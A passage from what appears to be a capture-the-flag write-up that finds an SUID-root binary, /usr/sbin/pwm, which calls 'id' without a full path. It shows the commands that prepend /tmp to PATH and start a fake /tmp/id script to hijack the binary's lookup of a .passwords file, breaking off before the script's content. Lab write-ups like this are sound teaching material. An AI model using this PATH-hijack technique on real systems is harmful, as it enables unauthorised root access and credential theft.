 The presence of the `/usr/sbin/pwm` binary stands out to me because it is not typically found on Linux hosts by default.

let's see who is the owner of this file..

```bash
ls -la /usr/sbin/pwm
-rwsr-sr-x 1 root root 17176 Jan 11  2024 /usr/sbin/pwm
```
I'll try to excute this file..

```c
usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

appears that this binary runs the "id" command, extracts the username from the output, and then uses that username to reference the file "/home/<username>/.passwords," potentially to perform some action with it.


If the id command is not provided with its full path (i.e., /bin/id), it will be located and executed through the directories listed in the PATH environment variable. The PATH variable contains a list of directories where executables are searched for, so if id is present in one of these directories (such as /usr/bin), it will be executed from there.

let's add /tmp to PATH like this:

```bash 
export PATH=/tmp:$PATH
```

let's make sure 

```bash
echo $PATH
```

![Screenshot](/assets/img/Lookup/16.png)

now let's create `/tmp/id` with the following content..
`#!/bin/bash`

Create the script:

```bash
echo '#!/bin/sh' > /tmp/id
```

make the script executable

```bash
chmod +x /tmp/id
```
